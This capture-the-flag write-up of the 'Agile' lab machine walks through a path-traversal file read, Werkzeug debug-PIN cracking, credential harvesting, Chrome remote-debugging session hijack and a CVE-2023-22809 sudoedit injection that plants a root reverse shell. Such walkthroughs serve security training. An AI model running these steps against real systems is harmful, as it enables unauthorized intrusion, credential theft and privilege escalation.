


# Recon

```bash
> nmap -p- -oA scans/nmap-alltcp 10.10.11.203

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

```bash
> nmap -p 22,80 -sVC -oA scans/nmap-tcpdetail 10.10.11.203

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f4bcee21d71f1aa26572212d5ba6f700 (ECDSA)
|_  256 65c1480d88cbb975a02ca5e6377e5106 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://superpass.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Directory enumeration:
```
302         22w      249c http://superpass.htb/download
200        229w     1946c http://superpass.htb/static/css/site.css
302         22w      243c http://superpass.htb/vault
200        154w     3082c http://superpass.htb/account/login
200         13w      153c http://superpass.htb/static/css/josefinsans.css
200        628w    49755c http://superpass.htb/static/img/convenient.png
200        363w    20337c http://superpass.htb/static/js/popper.min.js
200        611w    41388c http://superpass.htb/static/img/SP.png
200        548w    40203c http://superpass.htb/static/img/agile.png
200       1044w    69917c http://superpass.htb/static/js/jquery-3.3.1.slim.min.js
200        579w    51039c http://superpass.htb/static/js/bootstrap.min.js
200       1488w   126558c http://superpass.htb/static/img/army.png
403         10w      162c http://superpass.htb/static/js/
403         10w      162c http://superpass.htb/static/
301         12w      178c http://superpass.htb/static/js
301         12w      178c http://superpass.htb/static/css
301         12w      178c http://superpass.htb/static/img
200        842w    40334c http://superpass.htb/static/js/htmx.min.js
301         12w      178c http://superpass.htb/static
403         10w      162c http://superpass.htb/static/css/
403         10w      162c http://superpass.htb/static/img/
200       2088w   156865c http://superpass.htb/static/img/random.png
200       2069w    96422c http://superpass.htb/static/js/_hyperscript.min.js
200       1667w   140936c http://superpass.htb/static/css/bootstrap.min.css
200        151w   101894c http://superpass.htb/static/css/all.min.css
200       3944w   493569c http://superpass.htb/static/img/lock.jpg
200       3498w   384425c http://superpass.htb/static/img/rocket.png
200      14419w  1288572c http://superpass.htb/static/img/hero.png
200        307w     6128c http://superpass.htb/
```

Subdomain enumeration didn't yield any results.

# Shell as www-data
After checking out the superpass app hosted on port 80, we register and login
into our new account. We can add new passwords to the password manager and then export
it to the file. Call to download happens on following url:

```
http://superpass.htb/download?fn=test_export_d23280b413.csv
```

After testing it against simple LFI attack, we were able to obtain /etc/passwd
file:

```
http://superpass.htb/download?fn=../../../etc/passwd
```

```bash
> cat Downloads/superpass_export.csv

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...SNIP...
```

After entering incorrect path, error shows up, revealing path to
the app's source:

```
...SNIP...
File "/app/venv/lib/python3.10/site-packages/flask/app.py", line 1796, in dispatch_request
return self.ensure_sync(self.view_functions[rule.endpoint])(**view_args)
File "/app/venv/lib/python3.10/site-packages/flask_login/utils.py", line 290, in decorated_view
return current_app.ensure_sync(func)(*args, **kwargs)
File "/app/app/superpass/views/vault_views.py", line 102, in download
with open(f'/tmp/{fn}', 'rb') as f:
FileNotFoundError: [Errno 2] No such file or directory: '/tmp/test_export_2f5a29bc6.csv'
...SNIP...
```

With that, we can take a look at source code to discover further vulnerabilities.
First, we will look at app.py, which probably is located at /app/app/superpass/app.py:
```python
def enable_debug():
    from werkzeug.debug import DebuggedApplication
    app.wsgi_app = DebuggedApplication(app.wsgi_app, True)
    app.debug = True


def main():
    enable_debug()
     configure()
    app.run(debug=True)
```

As we can see, wergzeug debug is enabled (which we basically knew anyway, from
the fact that wergzeug stack trace showed on error). We try to enter console
provided by wergzeug, but it's protected with a PIN:  



It's possible to crack it, if one has capability to read files.
The process to do so is covered in very interesting article:  

[https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/](https://www.bengrewell.com/cracking-flask-werkzeug-console-pin/)

After following the article, we are able to get the correct PIN using variables below:

```
208-550-256

('www-data',
 'flask.app',
 'wsgi_app',
 '/app/venv/lib/python3.10/site-packages/flask/app.py',
 '345052383115',
 'ed5b159560f54721827644bc9b220d00superpass.service'
 )
```

After typing the PIN, we were able to succesfuly access the console.
From there, executing reverse shell is an easy task.

# Shell as corum

After obtaining reverse shell, to escalate privileges further, we will 
have to go back to this fragment of obtained source code:

```python
def setup_db():
    db_session.global_init(app.config['SQL_URI'])

...SNIP...
def load_config():
    config_path = os.getenv("CONFIG_PATH")
    with open(config_path, 'r') as f:
        for k, v in json.load(f).items():
            app.config[k] = v
```

As we can see, path to config is loaded from environmental variable, and then
its contents are used to get access to database.

First, let's obtain the contents of /proc/self/environ, to see where config is:
```
cat /proc/self/environ

...SNIP...
CONFIG_PATH=/app/config_prod.json
```

We then get the contents of config_prod, or rather database username and password
from it:
```
superpassuser:dSA6l7q*yIVsMl6ywvgK
```

We use it to connect to database:

```bash
mysql -u superpassuser -p -D superpass
```

We then dump it's contents. The interesting part is in passwords table:
```
select * from passwords;
+----+----------------+----------+----------------------+
| id | url            | username | password             |
+----+----------------+----------+----------------------+
|  8 | agile          | corum    | 5db7caa1d13cc37c9fc2 |
+----+----------------+----------+----------------------+
```

We use found credentials to ssh as corum.

# Shell as edwards

After running linpeas on target, we notice interesting fact. 
There is chrome instance running with --remote-debugging-port 41829 enabled.

We will forward it to our attacker machine:

```sh
ssh -L 9222:localhost:41829 corum@10.10.11.203
```

Where 9222 is default debugging port for chrome, which is why we are forwarding
to it.

After that, we open chrome on our attack machine, and type:
```
chrome://inspect
```

After a while, a remote session for superpass.htb should be visible.
We click 'inspect'. We have now a visual on someone chrome session,
and can even see the source code of visited sites. After a while,
"person" using chrome logs into their superpass account, revealing
following credentials:  



We try to connect with agile credentials via ssh, and we log in as edwards.

# Shell as root

After running sudo -l, it turns out edwards can run the sudoedit command
on two files, as user and group dev_admin. We check sudo version,
and it's vulnerable to CVE-2023-22809, wchich allows to edit arbitrary files
owned by the user we sudo as.

```bash
sudo -l
[sudo] password for edwards:
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit
        /app/app-testing/tests/functional/creds.txt
```

We try to search for files owned by user or group dev_admin:

```bash
edwards@agile:~$ find / -user dev_admin 2>/dev/null
/home/dev_admin
/app/app-testing/tests/functional/creds.txt
/app/config_test.json
/app/config_prod.json

edwards@agile:~$ find / -group dev_admin 2>/dev/null
/home/dev_admin
/app/venv
/app/venv/bin
/app/venv/bin/activate
/app/venv/bin/Activate.ps1
/app/venv/bin/activate.fish
/app/venv/bin/activate.csh
```

Files from the first search didn't prove very useful, but /app/venv/bin/activate
seems interesting. In /app directory there is a script that activates python venv:

```bash
edwards@agile:~$ cat /app/test_and_update.sh
#!/bin/bash

# update prod with latest from testing constantly assuming tests are passing

echo "Starting test_and_update"
date

# if already running, exit
ps auxww | grep -v "grep" | grep -q "pytest" && exit

echo "Not already running. Starting..."

# start in dev folder
cd /app/app-testing

# system-wide source doesn't seem to happen in cron jobs
source /app/venv/bin/activate

# run tests, exit if failure
pytest -x 2>&1 >/dev/null || exit

# tests good, update prod (flask debug mode will load it instantly)
cp -r superpass /app/app/
echo "Complete!"
```

Command "source /app/venv/bin/activate" runs the script we have write access to!
It wasn't confirmed when and by whom test_and_update.sh is run, but we can strongly
suspect it's run periodically by either root or dev_admin. We will now exploit
the CVE we mentioned eariel in order to edit the "activate" script:

```
export EDITOR="vim -- /app/venv/bin/active"
sudoedit -g dev_admin /app/config_test.json
```

Right at the beginning, we insert one-liner bash revshell, and start our listener.
After a short while, we receive connection and can run commands as root.
